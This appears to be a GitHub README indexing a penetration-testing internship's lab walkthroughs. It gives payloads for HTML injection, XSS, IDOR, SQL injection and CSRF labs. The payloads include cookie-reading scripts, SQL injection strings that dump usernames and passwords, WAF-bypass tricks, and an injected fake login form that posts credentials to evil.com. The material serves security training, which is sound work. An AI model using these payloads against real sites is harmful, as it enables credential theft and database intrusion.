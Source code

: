 # Hacktify Cybersecurity Labs & Writeups

## Overview
Welcome to the Hacktify Cybersecurity (HCS) - Penetration Testing Internship 2025 Labs repository! This repository contains hands-on labs and detailed writeups on various web security vulnerabilities. Each section includes a walkthrough and documentation to help security enthusiasts and professionals understand and mitigate these vulnerabilities.

🔗 Documentation: [**GitHub**](https://github.com/reyincyber/Hacktify-CS); [**Medium**](https://medium.com/me/stories/public); [**YouTube**](https://www.youtube.com/watch?v=GBzzOPzwKU4&list=PLlC9xarFXu2uGxKL1Xr7hy3TH13YOVY8U)

---

## HTML Injection
[GitHub Repo](https://github.com/reyincyber/Hacktify-CS/tree/main/HTML%20Injection) | [Medium Writeup](https://cyberrey.medium.com/html-injection-labs-walkthrough-hacktify-internship-8406228e9fd2) | [YouTube](https://youtu.be/GBzzOPzwKU4)

HTML Injection occurs when user input is not properly sanitized, allowing attackers to inject malicious HTML into web pages. This can lead to unauthorized modifications of page content, phishing attacks, and user impersonation.
```
Sub-lab 1: HTML’s are easy!
<h1>Test</h1>
<h1 style="color:red;">Hacked!</h1>

Sub-lab-3: File Names are also vulnerable!
<script>alert('XSS!')</script>.png

Sub-lab-4: File Content and HTML Injection a perfect pair!
<form action="http://evil.com/steal.php" method="POST">
  <input type="text" name="username" placeholder="Enter Username">
  <input type="password" name="password" placeholder="Enter Password">
  <input type="submit" value="Login">
</form>

Sub-lab-2.5: Injecting HTML using URL
http://labs....php?name=<h1>Injected</h1>
http://....php?<script>alert(document.cookie)</script>

Sub-lab-2.6: Encode IT!
%3Cscript%3Ealert%28%27XSS%27%29%3B%3C%2Fscript%3E 
%3Cscript%3Ealert(document.cookie)%3C/script%3E
```


## Cross-Site Scripting (XSS)

[GitHub Repo](https://github.com/reyincyber/Hacktify-CS/tree/main/Cross-Site%20Scripting%20(XSS)) | [Medium Writeup](https://cyberrey.medium.com/cross-site-scripting-xss-hands-on-lab-9f07bb8c8de2) | [YouTube](https://youtu.be/5bZfqFwr1mc)

XSS vulnerabilities allow attackers to inject malicious scripts into web applications, which can execute in a victim's browser. This can lead to session hijacking, data theft, and website defacement.
```
Let’s Do IT!
<script>alert('XSS')</script>

Balancing is Important in Life!
<script>alert('Hacked')</script>
">Hacked!<script>alert('Hacked')</script>

XSS is everywhere!
<script>alert('Hacked!')</script>@test.com

Alternatives are must!
"><script>prompt(1)</script>@test.com

Developer hates scripts!
<img src=x onerror="alert('XSS: Developer Hates Scripts!')">
">hello<IMG SRC=javascript:alert(1)>@test.com"

Change the Variation!
<script>alert(document.cookie)</script>
"><img src="x" onerror="alert('XSS')">

Encoding is the key?
%22%3E%3Cscript%3Ealert%28%27XSS%3A+Encoded%21%27%29%3C%2Fscript%3E
%22%3Ehello%3CIMG+SRC%3Djavascript%3Aalert%281%29%3E%40test.com%22

XSS with File Upload (file name)
<img src=x onerror="alert('XSS: File Name Exploit')">

XSS with File Upload (File Content)
<script>alert(document.domain + 'XSS: File Content')</script>

Stored Everywhere!
First Name: <script>alert('Firstname Stored')</script>
Lastname: <img src=x onerror="alert('LName Stored TOO!')">
Email: ">hello<IMG SRC=javascript:alert(emailfieldnotsafetoo)>@test.com"

DOM’s are love!
https://..../lab_11.php
https://..../lab_11.php?coin=btc
https://..../lab_11.php?coin=eth
https://..../lab_11.php?coin=doge
https://..../lab_11.php?<img src =x onerror=confirm("COINS_HACKED!")>
```

## Insecure Direct Object References (IDOR)

[GitHub Repo](https://github.com/reyincyber/Hacktify-CS/tree/main/Insecure%20Direct%20Object%20References%20(IDOR)) | [Medium Writeup](https://cyberrey.medium.com/insecure-direct-object-references-idor-hands-on-lab-93adbdd99602) | [YouTube](https://youtu.be/avhAVlpv1jc) 

IDOR occurs when an application exposes internal objects (such as database records) without proper access control. Attackers can exploit this to gain unauthorized access to sensitive data.
```
1.1 Give me my amount!!
https://…?id=11

1.2 Stop polluting my params!
id=4
id=1
https://…id=200

1.4 Change your methods!
https://…id=47
```

## SQL Injection (SQLi)

[GitHub Repo](https://github.com/reyincyber/Hacktify-CS/tree/main/SQL%20Injection%20(SQLi)) | [Medium Writeup](https://cyberrey.medium.com/sql-injection-sqli-hands-on-lab-d049af02b623) | [YouTube](https://youtu.be/XAS5fkZiwfQ) 

SQL Injection is a critical vulnerability that allows attackers to manipulate database queries by injecting malicious SQL code. This can lead to data leaks, unauthorized access, and database corruption.
```
1. Strings & Errors Part 1
1" OR "1"="1

2. Strings & Errors Part 2
?id=1'
?id=1' UNION SELECT 1,2,3,4--+

3. Strings & Errors Part 3
?id=1' UNION SELECT username, password FROM users--

4. Let's Trick 'em!
'
1' || '1'='1

5. Booleans and Blind!
?id=1

6. Error-Based: Tricked
") or ("1")=("1 -- 
('a'='a and hi")or ("a"="a

7. Errors and POST!
' OR '1'='1 

8. User Agents Lead Us!
Log in with admin@gmail.com | admin123 
'
' OR '1'='1
" OR "1"="1

9. Referer Lead Us!
' OR 1=1--
" OR "1"="1.

10. Oh Cookies!
Log in with 'admin'
' union SELECT version(),user(),database()#

11. WAF's are Injected!
?id=1&id=0' +union+select+1,@@version,database()--+

12. WAF's are Injected Part 2
?id=1--
?id=1&param=UNI&param2=ON SEL&param3=ECT 1,2,3--
```

## Cross-Site Request Forgery (CSRF)

[GitHub Repo](https://github.com/reyincyber/Hacktify-CS/tree/main/Cross-Site%20Request%20Forgery%20(CSRF)) | [Medium Writeup](https://cyberrey.medium.com/cross-site-request-forgery-csrf-hands-on-lab-34346497f6bf) | [YouTube](https://youtu.be/P6YhvQkkSpY) 

CSRF attacks trick authenticated users into executing unwanted actions on a web application, often leading to account takeover, unauthorized transactions, or configuration changes.
```
5. XSS the saviour
<script>alert(document.cookie)</script>
```

## Cross-Origin Resource Sharing (CORS)

[GitHub Repo](https://github.com/reyincyber/Hacktify-CS/tree/main/Cross-Origin%20Resource%20Sharing%20(CORS)) | [Medium Writeup](https://medium.com/@cyberrey/cross-origin-resource-sharing-cors-hands-on-lab-6a1d0b1b4d64) | [YouTube](https://youtu.be/n1NhWGDGzHw) 

CORS misconfigurations can allow unauthorized cross-origin requests, leading to data exposure and security risks for web applications that fail to enforce strict access control policies.

## Hacktify WK4 CTF
[GitHub Repo](https://github.com/reyincyber/Hacktify-CS/tree/8008ec0d8b2af76a3713b1448ccea066a1ec8894/Hacktify%20WK4%20CTF) | [Medium Writeup](https://medium.com/@cyberrey/hacktify-ctf-2025-week-4-eed64269651d)

This section contains the Hacktify Week 4 Capture The Flag (CTF) challenges and solutions, helping participants develop cybersecurity skills through practical problem-solving.

## HCPT Reports
[GitHub Repo](https://github.com/reyincyber/Hacktify-CS/blob/main/Hacktify%20HCPT%20Reports%20RU%20(1).pdf)

This report provides an in-depth analysis of various cybersecurity assessments conducted as part of the Hacktify HCPT program.

---

## Contributing
Contributions are welcome! If you have improvements, additional resources, or corrections, feel free to submit a pull request.

## License
This repository is maintained for educational purposes. Ensure responsible use of the information provided.

## Contact
For inquiries or discussions, feel free to reach out via [**LinkedIn**](https://linkedin.com/in/cyberrey)  | [**GitHub**](https://github.com/reyincyber/) | [**Medium**](https://medium.com/@cyberrey) | [**YouTube**](https://www.youtube.com/@reyincyber).
